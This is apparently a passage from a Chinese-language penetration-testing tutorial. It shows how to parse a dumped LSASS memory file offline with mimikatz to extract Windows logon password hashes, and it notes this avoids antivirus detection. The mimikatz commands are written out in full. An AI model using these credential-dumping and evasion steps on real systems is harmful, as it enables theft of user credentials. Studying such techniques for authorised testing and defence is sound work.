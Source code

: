 ![image-20230809202542134](assets/image-20230809202542134.png)

#### 2.2.1.2. 本地解密

当上面命令执行后，会再当前目录出现一个文件名字为：lsass.dmp，当然名字是自己写的，但是后面的后缀是一定的。

这里我们再运行本地的文件，导入密码，在进行读取，这里就是避免了被杀的风险，不过这里并不能读取到明文密码，还是读取的是hash值。

```
mimikatz.exe "sekurlsa::minidump lsass.dmp"
sekurlsa::logonPasswords full
```

![image-20230809202931793](assets/image-20230809202931793.png)
